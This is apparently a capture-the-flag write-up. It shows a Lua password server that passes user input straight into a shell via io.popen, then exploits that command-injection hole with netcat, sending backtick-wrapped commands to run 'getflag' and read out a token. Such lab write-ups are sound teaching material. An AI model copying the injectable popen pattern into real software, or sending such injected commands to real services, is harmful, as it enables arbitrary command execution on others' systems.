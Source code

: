 # First step

We have a lua file named `level11.lua`.   

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

It's about a server turned on a port 5151.  

# Second step

Let's try to connect to the server using Netcat.  

```shell
$> nc 127.0.0.1 5151
Password: blabla
Erf nope..

$> nc 127.0.0.1 5151
Password: `echo test`: Erf nope..  
Erf nope..

$> nc 127.0.0.1 5151
Password: `echo test > /tmp/test`  
Erf nope..

$> cat /tmp/test
test

$> nc 127.0.0.1 5151
Password: `getflag > /tmp/flag` 
Erf nope..

$> cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
